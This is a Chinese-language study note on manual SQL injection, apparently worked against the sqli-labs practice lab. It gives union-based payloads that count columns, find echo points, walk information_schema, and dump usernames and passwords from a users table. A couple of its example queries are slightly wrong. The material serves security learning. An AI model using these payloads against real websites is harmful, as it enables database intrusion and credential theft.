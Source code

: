 # SQL注入

## SQL注入之手工注入：

>   系统库：
>   	information_schema	：所有系统信息都在当前库中
>
>   ​	schemata		: 所有库信息
>
>   ​	tables		：所有表信息
>
>   ​	columns		：所有列信息

*   判断有无注入点：

    *   使用**and**连接符
        *   `and 1=1 -- ' ` 当前语句返回为true
    *   使用**order by ** 来进行猜解列数
        *   `order by 1` 修改数字来进行判断是否有进行错误的回显
    *   使用**union** 来进行找到页面中的回显点
        *   `union select 1,2,3` 找到页面中的回显位置
        *   例子：`?id=1 union 1,version(),3`version处会显示当前数据库的版本
        *   `user(),version(),database()`当前用户,版本信息,以及当前数据库名称（)
        *   通过回显点找到当前数据库的库名-->security

*   进行SQL注入测试

    *   `union select 1,group_concat(schema_name),3 from information_schema.schemata`查找当前系统中存在哪些库

    *   `union select 1,group_concat(table_name),3 from information_schema.tables where table_schema = 'security'` 查找表名
    
        ```sql
         完整URL：http://192.168.0.68:8080/Less-2/?id=-2 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema = 'security'
        
        参数说明：
        	使用union进行联合查询
        	使用group_concat将结果进行切割并且合并，使用逗号分隔
        	从infomation_schema.tables中查找table_name列。
        	使用where条件限定只查询'security'库的信息
        ```

    *   `union select 1,group_concat(column_name),3 from information_schema.columns where column_name = 'users'` 根据列名查找当前字段名
    
    *   ` union select 1,(select group_concat(username,0x3a,password)from users),3` 根据查找到的列名直接进行数据读取.  Tips:`0x3a`转换后的字符为冒号`:` 
    

 

## Mysql权限

